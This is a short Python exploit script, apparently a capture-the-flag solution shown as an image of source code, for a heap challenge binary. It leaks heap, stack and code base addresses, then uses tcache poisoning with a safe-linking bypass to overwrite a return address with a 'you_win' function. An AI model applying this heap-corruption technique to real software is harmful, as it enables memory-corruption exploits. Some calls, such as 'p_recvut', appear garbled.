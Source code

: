 ```

for i in range(3):
	alloc(0x20, i)
free(0)
alloc(0x20, 0)
view(0, 0)
p_recvut(b"Contents: ")
heap_base = (int(p.recvline(), 16) << 12) - 0x1000
print(hex(heap_base))

secret(0, 0xD3)
view(0, 0)
p_recvut(b"Contents: ")
rbp_secret = int(p.recvline(), 16) + 0x30
print(hex(rbp_secret))

secret(0, 0x83)
view(0, 0)
p_recvut(b"Contents: ")
code_base = int(p.recvline(), 16) - e.symbols['secret']
print(hex(code_base))

free(0)
free(1)
target = (rbp_secret - 0x10) ^ (heap_base + 0x16f0) >> 12
edit(2, -6, target)
alloc(0x20, 1)
alloc(0x20, 0)
win = code_base + e.symbols['you_win']
edit(0, 3, win)

p.interactive()
```